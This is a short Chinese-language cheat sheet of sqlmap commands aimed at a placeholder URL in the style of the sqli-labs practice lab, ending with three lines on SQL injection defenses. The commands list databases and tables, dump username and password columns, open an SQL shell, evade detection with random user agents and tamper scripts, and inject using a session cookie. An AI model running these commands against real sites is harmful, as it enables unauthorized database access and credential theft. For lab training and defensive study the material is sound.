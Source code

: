 查看所有库

```
sqlmap -u "xxx.com/Less-1/?id=1" -dbs
```

查看所有表

```
sqlmap -u "xxx.com/Less-1/?id=1" -D security --tables
```

查看表字段

```
sqlmap -u "xxx.com/Less-1/?id=1" -D security -T users --columns
```

查看表字段内容

```
sqlmap -u "xxx.com/Less-1/?id=1" -D security -T users --columns -C "username,password" -dump
```

进入sql-shell

```
 sqlmap -u "xxx.com/Less-1/?id=1" --sql-shell
```

随机agent

```
sqlmap -u "xxx.com/Less-1/?id=1" --random-agent
```

多线程

```
sqlmap -u "xxx.com/Less-1/?id=1" --threads=4
```

导出HTTP详细请求

```
sqlmap -u "xxx.com/Less-1/?id=1" -t http.log
```

带cookie注入

```
sqlmap -u "xxx.com/Less-1/?id=1" --cookie="PHPSESSID=1b5arqpjub0o45b27e3s8ukf8c; security=low"
```

```
--mobile				有时服务端只接收移动端的访问，此时可以设定一个手机的User-Agent来模仿手机登陆 
--level=LEVEL			执行测试的等级(1-5， 默认为1)
--risk=RISK				执行测试的风险(0-3, 默认为1)
--time-sec=TIMESEC		DBMS响应的延迟时间(默认为5秒)
-U USER					用来进行枚举的数据库用户
--sql-query=QUERY		要执行的SQL语句
--tamper				指定脚本
```

# SQL注入与防御

1.过滤（输入验证）：检测用户输入的合法性确保输入的内容是正常数据，数据校验最重要的就是在服务端校验

2.禁止回显错误报告：禁止回显错误信息，提高攻击难度

3.预编译输入：PDO (PHP Data Objects)采用预处理的方式，事先创建SQL语句模板，并发送到资料库，预处理，占位符